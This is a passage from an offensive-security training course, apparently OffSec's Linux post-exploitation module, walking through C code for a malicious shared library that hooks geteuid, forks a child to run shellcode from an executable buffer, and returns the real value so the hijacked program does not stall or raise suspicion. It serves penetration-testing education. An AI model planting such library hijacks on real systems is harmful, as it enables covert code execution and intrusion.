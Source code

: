 ```
        typeof(geteuid) *old_geteuid;
```

> Listing 64 - Defining the pointer to the old geteuid function

This provides us access to the original function so that we can call it later on. This will allow us to retain the original functionality of the program.

Next, we use the _dlsym_[10](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_437-10) function to get the memory address of the original version of the _geteuid_ function. The _dlsym_ function finds a symbol for a dynamic library in memory. When calling it, we give it the name of the symbol we're trying to find (in this case "geteuid"). This will return the next occurrence of "geteuid" in memory outside of the current library. Calling this will skip our version of the function and find the next one, which should be the original version loaded by the program the user called.

```
        old_geteuid = dlsym(RTLD_NEXT, "geteuid");
```

> Listing 65 - Defining the pointer to the old geteuid function

At this point, it's important to point out that if we keep our original shared library code format, we are going to run into a problem. If we use it as-is, when we run our target application, it will stop and wait for our shell to return before continuing. This means that the function will stall and the _cp_ program will stall as well. This will certainly raise suspicion.

Ideally, we want the program to return right away, but still run our shell in the background. In order to do this, we need to create a new process for our shell. We can do this using the _fork_[11](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_437-11) method, which creates a new process by duplicating the parent process. This line in the code determines whether or not the result of the fork call is zero. If it is, we are running inside the newly created child process, and can run our shell as we did with our earlier AV bypass shell application. Otherwise, it will return the expected value of _geteuid_ to the original calling program so it can continue as intended. The final two lines provide a meaningless return value in case the code reaches that point, which realistically should never happen.

```
       if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC)) {
                        perror("mprotect");
                        return -1;
                }
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...
");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...
");
        return -2;
}

```
